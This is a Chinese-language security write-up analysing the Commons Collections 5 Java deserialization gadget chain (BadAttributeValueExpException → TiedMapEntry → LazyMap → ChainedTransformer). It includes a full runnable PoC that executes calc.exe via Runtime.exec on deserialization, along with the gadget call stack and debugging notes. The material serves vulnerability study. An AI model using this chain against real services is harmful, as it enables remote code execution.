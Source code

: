 ## 简介
CC5 利用的还是CC1的链路，使用LazyMap，只要调用了LazyMap.get()，就可以触发ChainedTransformer，链式调用，那么在CC5中，在哪儿会调用这个get方法呢？
在[CC1 LazyMap 利用链](https://www.yuque.com/da-labs/secnotes/aobl1w)中，我们知道**动态代理对象调用任何一个方法时会调用handler中的invoke方法**，然而我们知道`sun.reflect.annotation.AnnotationInvocationHandler`，会发现实际上这个类就是一个InvocationHandlerAnnotationInvocationHandler类，如果将这个恶意对象用Proxy进行代理，那么在readObject的时候，只要调用任意方法，就会进入到AnnotationInvocationHandler#invoke方法中。
在CC5中这里引入了新的两个类，分别是**TiedMapEntry，BadAttributeValueExpException**
### TiedMapEntry
可以看到map，和key都是可控的，在调用getValue的时候，就直接调用get方法，实现LazyMap#get()

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_21_YU4Byvbu.png)

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_21_KHiUvyfT.png)

那么要在哪里调用这个getvalue函数呢，在`TiedMapEntry`里，我们可以看到该类为其实现了一个`toString()`方法

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_21_x8EC6yVt.png)

那么找到能调用`TiedMapEntry#toString()`方法就显得至关重要，接下来`BadAttributeValueExpException`类就会带来一片光明

### BadAttributeValueExpException
`BadAttributeValueExpexception` 在readObject的时候，如果能读这个valObj为`TiedMapEntry`的实例，那么是不是就是一条完美的链路？

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_22_Zc2w9KjJ.png)

在此处，我们可以看到`BadAttributeValueExpexception` 的构造函数只有一个值val，但是类型是Object，那么我们可以按如下构造，当其反序列化的时候，调用readObject()函数的时候，反序列化得到的valObj就是对应的`TiedMapEntry`实例

```java
// 创建一个实例
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
// 反射赋值
Field valfield = val.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(val,"TiedMapEntry实例对象");
```
## POC
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;


/*
@params
Test Env
jdk8u181
Commons Collection3.1
 */
public class TestCC5 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap,transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "1");
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val,entry);
        try{
            FileOutputStream fileOutputStream = new FileOutputStream("cc5.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(val);

            FileInputStream fileInputStream = new FileInputStream("cc5.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
### 0x1
第一部分为[CC1 LazyMap 利用链](https://www.yuque.com/da-labs/secnotes/aobl1w)前部分，也可以参考[CC1 分析](https://www.yuque.com/da-labs/secnotes/eru5qp)，这里只要调用了`LazyMap#get`，就会触发`ChainedTransformer.transform()`,进而对transformers链式调用

```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
    };
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap,transformerChain);
```
### 0x2
在简介中可以看到，`TiedMapEntry`实例化的`entry`需要赋值给`BadAttributeValueExpException@val`,当反序列化的时候，取到对象，则会调用`TiedMapEntry#toString`方法，进而调用`TiedMapEntry#get`方法，其中Map可控，就是反序列化得来的恶意的`TiedMapEntry`实例`lazymap`
```java
TiedMapEntry entry = new TiedMapEntry(lazyMap, "1");
BadAttributeValueExpException val = new BadAttributeValueExpException(null);
Field valfield = val.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(val,entry);
```
对应的调用链为
```
	Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```
![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_22_AOUvgQqk.png)

## 调试
调试过程和LazyMap是一样的，我们在`LazyMap#get`处`factory.transform(key)`处打下断点来分析

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_22_WcmBpluF.png)



可以看到利用链路为`BadAttributeValueExpException.readObject()`-> `TiedMapEntry.toString()`-> ` LazyMap.get()`->`ChainedTransformer.transform()`

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_23_XfMSdLRK.png)

这里就是常规链式调用了

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_23_9mfpr51S.png)

> [!TIP]
>
> 注：在调试过程中，如果在`LazyMap#get`前的堆栈打上断点，就无法进入LazyMap.get()的if语句

在调试过程中，如果在`LazyMap.get()`之前的堆栈中打下断点，比如`BadAttributeValueExpException.readObject()`、`TiedMapEntry.toString()`、`TiedMapEntry.getValue()`处打上断点，是无法进入 `LazyMap.get()`if 判断语句
在这里可以看到，我圈起来的部分，这里的意思就是已经执行了，因为发生调用了，只不过debug无法进入

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_24_dcBmzp9l.png)

到这里我们直接看`LazyMap.get()`方法，这里断点一定要打在if处，不然是不能进入断点，可以看到，在if处，得到了map参数已经不是空，而是在序列化的时候已经赋的初值。可以通过比较没有在`LazyMap.get()`前的堆栈下断点的区别

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_24_rQw9ecjh.png)

图1 `LazyMap.get()`堆栈前下断点

![image.png](Commons Collections 5 分析.assets/2023_05_19_10_37_25_EJBxRNAZ.png)

图2 `LazyMap.get()`堆栈前无断点，这就是为什么我在调试部分我没有在其他函数处打断点，而是直接在`LazyMap#get()`处打断点。



